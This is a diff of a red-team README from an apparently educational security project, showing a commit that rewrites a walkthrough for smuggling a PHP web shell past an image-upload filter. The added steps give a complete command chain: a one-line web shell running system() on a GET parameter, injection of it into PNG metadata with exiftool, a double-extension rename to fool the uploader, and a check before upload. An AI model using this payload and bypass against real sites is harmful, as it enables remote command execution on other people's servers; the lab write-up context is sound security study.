

Before and after one commit to JulesFEDIT/ssi-project, a Markdown page: Red Team - README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/Red Team - README.md
+++ b/Red Team - README.md
@@ -79,30 +79,38 @@
 
   Working Solution: Metadata Injection + Obfuscation
 
-     1. Use a clean, existing image
+1. Copy a clean image
 
-          ```bash
-          cp /usr/share/icons/gnome/256x256/devices/computer.png shell.png
-          ```
+```bash
+cp /usr/share/icons/gnome/256x256/devices/computer.png shell.png
+```
+2. Create a discrete PHP payload (obfuscated)
 
-          ![image](https://github.com/user-attachments/assets/d6660168-cb58-419d-b93f-e2ee53d6af1f)
+```bash
+echo "<?php @call_user_func('system', \$_GET['cmd']); ?>" > payload.txt
+```
 
+3. Inject this payload into a discrete metadata
 
-     2. Inject an obfuscated PHP payload into the image’s metadata
-        ```bash
-          cp /usr/share/icons/gnome/256x256/devices/computer.png shell.png
-          ```
+```bash
+exiftool -Artist="$(cat payload.txt)" shell.png
+```
 
-     This avoids all blacklisted keywords (system, eval, etc.)
+4. Rename the image to fool the uploader (double extension)
 
-     3. Renommer l’image avec une double extension
-        ```bash
-          mv shell.png shell.php.png
-          ```
+```bash
+mv shell.png shell.php.png
+```
 
-     4. Upload successful
+5. Check that your payload is there
 
-     ![image](https://github.com/user-attachments/assets/24ff24d8-0afd-49c9-a9ed-a2ddf21052de)
+```bash
+exiftool shell.php.png
+```
+
+6. Upload successful
+
+![image](https://github.com/user-attachments/assets/24ff24d8-0afd-49c9-a9ed-a2ddf21052de)
 
 
   The file passed the scan because :
````
